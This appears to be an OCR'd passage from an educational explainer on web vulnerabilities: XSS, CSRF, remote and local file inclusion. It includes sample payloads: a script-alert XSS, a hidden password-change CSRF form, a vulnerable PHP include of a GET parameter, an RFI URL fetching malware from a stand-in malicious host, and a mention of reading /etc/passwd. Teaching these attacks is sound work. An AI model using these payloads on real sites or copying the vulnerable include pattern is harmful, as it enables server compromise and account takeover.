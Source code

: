 **Types:**  
- **Stored XSS:** Code is stored on the server (e.g., in a comment section).  
- **Reflected XSS:** Code is included in a URL and executed when the link is clicked.  

**Impact:**  
- Steal cookies or session tokens.  
- Redirect users to malicious sites.

**Example:**  
```html
<script>alert('Hacked!');</script>
```

---

### **3. Cross-Site Request Forgery (CSRF)**  
**What it is:**  
An attacker tricks a user into performing unintended actions on a website where they’re authenticated.

**Impact:**  
- Fund transfers.  
- Password changes.  

**Example:**  
A malicious link that silently triggers a POST request:  
```html
<form action="https://example.com/change-password" method="POST">
    <input type="hidden" name="new_password" value="hacked123">
</form>
```

---

### **4. Remote File Inclusion (RFI)**  
**What it is:**  
An attacker uploads or includes a malicious file via a vulnerable web application.

**Impact:**  
- Code execution on the server.  
- Compromise of the server.  

**Example:**  
```php
<?php include($_GET['file']); ?>
URL: http://example.com/page.php?file=http://malicious-site.com/malware.php
```

---

### **5. Local File Inclusion (LFI)**  
**What it is:**  
Similar to RFI but uses local files on the server.

**Impact:**  
- Access sensitive server files (e.g., `/etc/passwd`).  
- Execute server-side code.
